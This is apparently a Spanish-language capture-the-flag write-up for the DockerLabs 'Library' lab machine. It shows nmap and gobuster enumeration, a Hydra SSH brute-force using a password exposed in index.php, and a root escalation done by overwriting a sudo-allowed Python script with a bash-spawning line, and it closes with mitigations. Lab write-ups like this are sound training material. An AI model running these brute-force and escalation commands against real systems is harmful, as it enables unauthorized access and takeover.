


# Library — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Máquina para explotar la vulnerabilidad Python Library Hijacking.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Credential Discovery (index.php) → SSH Brute Force (Hydra) → SSH Access (carlos) → Sudo Misconfiguration (Writable Python Script) → Python Privilege Escalation → Root**

## 1. Analisis y escaneo del objetivo.

Se comienza con un escaneo completo de puertos con nmap:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/library]
└─$ nmap -sV -sC -p- 172.17.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-01 19:42 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: AE:80:4B:2D:5B:F9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Solo dos puertos abiertos: SSH y un servidor web Apache que, a priori, muestra la página por defecto ("It works").




## 2. Enumeracion WEB 

Se lanza un fuzzing de directorios y archivos sobre el puerto 80:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/library]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta.txt             (Status: 403) [Size: 275]
.htaccess.html       (Status: 403) [Size: 275]
.hta.php             (Status: 403) [Size: 275]
.htpasswd            (Status: 403) [Size: 275]
.hta                 (Status: 403) [Size: 275]
.htpasswd.php        (Status: 403) [Size: 275]
.htpasswd.html       (Status: 403) [Size: 275]
.htpasswd.txt        (Status: 403) [Size: 275]
.hta.html            (Status: 403) [Size: 275]
.htaccess.php        (Status: 403) [Size: 275]
.htaccess            (Status: 403) [Size: 275]
.htaccess.txt        (Status: 403) [Size: 275]
index.php            (Status: 200) [Size: 26]
index.php            (Status: 200) [Size: 26]
index.html           (Status: 200) [Size: 10671]
index.html           (Status: 200) [Size: 10671]
javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
server-status        (Status: 403) [Size: 275]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished

```
Entre los resultados aparece `index.php` con un tamaño de apenas 26 bytes, muy distinto al `index.html` por defecto de Apache (10671 bytes). Eso indica que `index.php` es contenido custom de la aplicación, no el default de Apache.

Al consultarlo:



Se prueban varias transformaciones sobre esa cadena (ROT13, base64, reverso) sin obtener ningún resultado legible, por lo que se descarta que esté cifrada: lo más probable es que sea literal, una credencial expuesta directamente en el código fuente.

## 3.  Acceso inicial - Fuerza bruta SSH

Con el puerto 22 abierto y una posible contraseña en mano, se ataca el servicio SSH con hydra usando esa cadena como password fija contra una wordlist extensa de usuarios:

```bash
                                                                                                               
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/library]
└─$ hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -I

[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD

```
Se obtienen credenciales válidas: `carlos:JIFGHDS87GYDFIGD`. Con ellas se accede por SSH:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/library]
└─$ ssh carlos@172.17.0.2
carlos@a62cb41cced3:~$ 

```

### Escalada de privilegios

Una vez dentro como carlos, se revisan los permisos de sudo:

```bash
carlos@a62cb41cced3:~$ sudo -l
Matching Defaults entries for carlos on a62cb41cced3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on a62cb41cced3:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py

```
El usuario puede ejecutar ese script como root sin contraseña. Se inspeccionan sus permisos:

```bash

carlos@a62cb41cced3:~$ ls -la /opt/script.py
-r-xr--r-- 1 carlos root 272 May  7  2024 /opt/script.py

```

El archivo no tiene permiso de escritura, pero su dueño es carlos. Al ser el propietario, es posible modificar sus propios permisos sin necesidad de privilegios adicionales:

```bash

carlos@a62cb41cced3:~$ chmod +w /opt/script.py
carlos@a62cb41cced3:~$ echo 'import os; os.system("/bin/bash")' > /opt/script.py

```

Al ejecutar el script modificado con sudo, se obtiene una shell como `root`:

```bash
carlos@a62cb41cced3:~$ sudo /usr/bin/python3 /opt/script.py
root@a62cb41cced3:/home/carlos# whoami
root
root@a62cb41cced3:/home/carlos# id
uid=0(root) gid=0(root) groups=0(root)
root@a62cb41cced3:/home/carlos# 

```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH y Apache. Durante la enumeración web, mediante **Gobuster**, se descubrió un archivo `index.php` que contenía una posible contraseña. Posteriormente, utilizando **Hydra**, se realizó un ataque de fuerza bruta contra SSH, obteniendo acceso al sistema con el usuario `carlos`.

Una vez dentro, se revisaron los permisos mediante `sudo -l`, identificando que `carlos` podía ejecutar `/opt/script.py` como `root` sin necesidad de contraseña. Al comprobar que era propietario del archivo, fue posible modificar sus permisos y contenido para ejecutar una shell con privilegios elevados.

Finalmente, ejecutando el script mediante **Python con sudo**, se consiguió acceso como `root`, completando la máquina.

En conclusión, **Library** permite comprender cómo la exposición de credenciales y una configuración incorrecta de permisos sobre scripts ejecutables con privilegios elevados pueden facilitar el acceso inicial y la escalada de privilegios dentro de un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Exposición de credenciales en la página web** | Permite obtener contraseñas que pueden utilizarse para acceder a otros servicios. | Evitar publicar información sensible y revisar el contenido del servidor web. |
| **Contraseña SSH débil o expuesta** | Facilita el acceso no autorizado mediante ataques de fuerza bruta. | Utilizar contraseñas robustas, autenticación mediante claves SSH y limitar los intentos de conexión. |
| **Permisos de `sudo` sobre un script Python** | Permite ejecutar código arbitrario con privilegios de `root`. | Restringir los permisos de `sudo` y evitar ejecutar scripts modificables por usuarios sin privilegios. |
| **Propietario y permisos incorrectos del script** | Permite modificar un archivo que posteriormente se ejecuta con privilegios elevados. | Asignar la propiedad de los scripts administrativos a `root` y restringir los permisos de escritura. |

## Recomendaciones generales

- Evitar exponer credenciales o información sensible en archivos públicos.
- Utilizar contraseñas robustas y únicas para cada servicio.
- Proteger el acceso SSH mediante autenticación con claves.
- Revisar periódicamente las configuraciones y permisos de `sudo`.
- Evitar que usuarios sin privilegios administrativos puedan modificar scripts ejecutados como `root`.
- Aplicar el principio de mínimo privilegio para reducir los riesgos de escalada de privilegios
